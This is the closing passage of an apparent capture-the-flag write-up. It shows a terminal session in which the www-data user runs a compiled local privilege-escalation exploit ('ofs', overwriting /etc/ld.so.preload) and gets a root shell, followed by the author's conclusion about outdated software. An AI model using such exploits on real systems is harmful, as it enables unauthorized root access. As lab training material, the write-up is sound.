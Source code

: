 The compilation worked ! Let's run the exploit now and see if it works :  
```
www-data@ubuntu:/tmp$ ./ofs 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
# 
```

We have a shell as root ! Let's get the root flag located in `/root/root.txt` file.

## Conclusion

So the SSH key we've found was useless. This room took me a long time to finish because of the compilation errors I had. It took me a long time to find out what was 
the problem. In this room, we see again that it can be dangerous to keep outdated softwares/services installed on a machine. There is some other exploits that should 
work for the privilege escalation but I did not try to use them. This room was very cool and I learned some new things. Thanks for this room and thanks for 
reading my write ups !

